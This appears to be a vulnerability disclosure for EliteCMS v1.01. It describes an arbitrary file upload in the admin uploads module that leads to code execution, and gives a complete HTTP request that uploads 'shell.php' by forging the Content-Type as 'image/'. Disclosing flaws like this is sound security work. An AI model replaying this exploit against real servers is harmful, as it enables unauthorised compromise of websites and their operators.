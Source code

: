# Elitecms v1.01 by elitecms has arbitrary code execution (RCE)

vendor: https://elitecms.net/download.php

Vulnerability url: http://ip/eliteCMS1.01/admin/manage_uploads.php

Loophole location： Arbitrary file upload vulnerability (RCE) exists in the "manage_uploads" module in the background management system.

**The key point is "Content-Type: image/". We successfully bypass the detection of the image using "image/".**

Request package for file upload：

```sql
POST /eliteCMS1.01/admin/manage_uploads.php HTTP/1.1
Host: 192.168.1.108
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.108/eliteCMS1.01/admin/manage_uploads.php
Cookie: PHPSESSID=307ef75a2f3ab4c1103d8a1e90cf120e
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------4519189897082
Content-Length: 311

-----------------------------4519189897082
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/ 

JFJF
<?php phpinfo();?>
-----------------------------4519189897082
Content-Disposition: form-data; name="submit"

Add Image
-----------------------------4519189897082--
```

The files will be uploaded to this directory \elitecms1.01\uploads\

![image](https://user-images.githubusercontent.com/54017627/167533036-301b2877-92d6-4f98-9294-b59e0c6b927f.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167533122-a16f4c43-835b-4dba-99be-6c5e46caaa0f.png)

